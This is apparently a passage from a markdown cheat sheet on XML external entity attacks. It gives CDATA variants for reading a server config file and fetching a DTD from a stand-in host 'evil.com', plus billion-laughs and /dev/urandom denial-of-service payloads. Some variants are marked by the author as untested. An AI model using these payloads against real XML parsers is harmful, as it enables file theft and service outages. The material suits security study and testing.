     Approach 3 (*does it really work?*):

    *   CDATA inside xml

        ```
        <root>
            <![CDATA[
                <!ENTITY % stuff SYSTEM "file:///var/www/html/app/WEB-INF/ApplicationContext.xml">
            ]]>
        </root>
        ```

        ```
        <![CDATA[
            <!DOCTYPE doc [
                <!ENTITY % dtd SYSTEM "http://evil.com/">
                %dtd;
            ]>
            <xxx/> <-- ???
        ]]>
        ```

    ("Detected an entity reference loop" error must be carefully bypassed)

    Because of XML standard you have to pack external entities into evil.dtd. In core xml parameter entities must not depend on each other, parser will not make replacements.

    <br>

- **DoS - billion laughs**

    Using XML entities, server memory resource can be exhausted by constructing long entity value.

    ```
    <?xml version="1.0"?>
    <!DOCTYPE root [
        <!ENTITY hifi "hifi">
        <!ENTITY hifi1 "&hifi;&hifi;&hifi;">
        <!ENTITY hifi2 "&hifi1;&hifi1;&hifi1;">
        <!ENTITY hifi3 "&hifi2;&hifi2;&hifi2;">
    ]>
    <root>&hifi3;</root>
    ```

    Linux local devices can be used:

    ```
    <?xml version="1.0"?>
    <!DOCTYPE root [
        <!ENTITY xxe1 SYSTEM "/dev/urandom">
        <!ENTITY xxe2 SYSTEM "/dev/zero">
    ]>
    <root>&xxe1;&xxe2;</root>
    ```

    Does recursion available?
